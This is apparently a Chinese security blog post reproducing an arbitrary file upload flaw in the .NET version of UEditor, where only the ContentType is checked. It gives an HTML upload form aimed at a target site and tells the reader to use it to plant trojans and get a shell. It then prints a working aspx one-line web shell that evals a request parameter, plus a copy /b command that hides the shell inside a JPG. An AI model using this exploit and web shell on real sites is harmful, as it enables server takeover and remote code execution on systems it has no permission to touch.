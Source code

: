 ```yaml
---
layout: post
title: docker
date: 2022-8-23
categories: blog
tags: [漏洞复现,ueditor]
description: ueditor漏洞整理


---
```


### Ueditor .net版本任意文件上传

**漏洞原理**
Ueditor中获取图片资源时仅检查ContentType,可造成任意文件上传

**漏洞复现**
利用post直接上传文件到目标网站

```html
<form action="目标站点" enctype="multipart/form-data" method="POST">
 
 <p>shell addr: <input type="text" name="source[]" /></p>
  
 <input type="submit" value="Submit" />
  
</form>
```

以上代码保存为html直接执行，绕过保护机制上传php木马和aspx图片马进行getshell

**ContentType绕过**

1.aspx图片马

```asp
#aspx一句话
<%@ Page Language="Jscript"%><%eval(Request.Item["zhanan"],"unsafe");%>
copy 1.jpg/b + 2.aspx 3.aspx
```

